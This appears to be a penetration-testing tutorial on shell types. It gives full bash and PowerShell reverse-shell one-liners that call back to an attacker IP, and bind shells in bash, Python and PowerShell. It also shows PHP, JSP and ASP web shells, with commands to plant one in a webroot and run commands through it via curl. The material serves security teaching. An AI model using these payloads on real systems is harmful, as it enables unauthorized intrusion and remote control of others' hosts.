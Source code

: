 # Types of Shells

| Shell Type    | Description   |
| ------------- | ------------- |
| Reverse shell | Initiates a connection back to a "listener" on our attack box. |
| Bind shell    | "Binds" to a specific port on the target host and waits for a connection from our attack box. |
| Web shell     | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command.) |

## Reverse Shell

A Reverse Shell is the most common type of shell, as it is the quickest and easiest method to obtain control over a compromised host. Once we identify a vulnerability on the remote host that allows remote code execution, we can start a netcat listener on our machine that listens on a specific port.

### Netcat Listener

```bash
$ nc -lvnp 1234

listening on [any] 1234 ...
```

| Flag | Description |
| ---- | ----------- |
| -l | Listen mode, to wait for a connection to connect to us. |
| -v | Verbose mode, so that we know when we receive a connection.  |
| -n | Disable DNS resolution and only connect from/to IPs, to speed up the connection.  |
| -p 1234 | Port number netcat is listening on, and the reverse connection should be sent to. |

### Connect Back IP

We need an IP to tell the compromised machine to connect to, which is ours:

```bash
$ ip a

...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0

...
```

In a real pentest, you may be directly connected to the same network, or performing an external penetration test, so you may connect through the `eth0` adapter or similar.

### Reverse Shell Command

The [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Bash:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Powershell:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

## Bind Shell

Another type of shell is a bind shell. Unlike a reverse shell that connects to us, we will have to connect to it on the targets' listening port. If we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately.

However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

### Bind Shell Command

Once again, we can utilize [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet) to find a proper command to start our bind shell.

Bash:

```bash
$ rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Python:

```bash
$ python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Powershell:

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

### Netcat Connection

Once the bind shell command is issued, we should have a shell waiting for us to connect to on the compromised host.

```bash
$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Upgrading TTY

Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY.

This can be achieved by mapping our terminal TTY with the remote TTY.

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

After we run this command, we will hit ctrl+z to background our shell and get back on our local terminal, and input the following stty command:

```bash
$ ^Z
$ stty raw -echo
$ fg

<Enter>
<Enter>
www-data@remotehost$
```

We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:

```bash
$ echo $TERM
xterm-256color

$ stty size
67 318

$ export TERM=xterm-256color
$ stty rows 67 columns 318
```

## Web Shell

A web shell is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.

### Writing a Web Shell

PHP:

```php
<?php system($_REQUEST["cmd"]); ?>
```

JSP:

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

ASP:

```asp
<% eval request("cmd") %>
```

### Uploading a Web Shell

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser.

The first step is to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot        |
|------------|------------------------|
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| IIS        | C:\inetpub\wwwroot\    |
| XAMPP      | C:\xampp\htdocs\       |

```bash
$ echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Accessing the Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`.

```bash
$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
